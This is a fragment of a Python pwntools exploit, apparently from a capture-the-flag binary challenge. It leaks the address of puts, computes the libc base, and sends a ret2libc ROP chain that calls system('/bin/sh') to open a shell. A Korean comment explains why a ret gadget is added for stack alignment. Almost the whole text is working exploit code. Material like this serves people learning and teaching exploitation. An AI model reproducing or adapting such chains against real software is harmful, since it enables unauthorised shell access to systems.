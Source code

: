 ```python
puts = u64(p.recv(6)+b"\x00"*2)
lb = puts - libc.sym["puts"]
system = lb + libc.sym["system"]
binsh = lb + list(libc.search(b"/bin/sh"))[0]
exit_func = lb + libc.sym["exit"]

log.info(hex(lb))

# system("/bin/sh")
payload = b"\x90"*0x18
'''
p64(ret)이 반드시 들어가야되는 이유
: MOVAPS 이슈 때문이다. -> RSP가 16배수로 유지되야하는데, 그게 아니라서 에러가 발생하는 거임
64bit 에서는 간단하게 ROP chain 전에 RET 가젯을 써서 이슈를 해결할 수 있음
'''
payload += p64(ret)
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.sendlineafter(": ", "1")
p.sendline(payload)

p.interactive()
```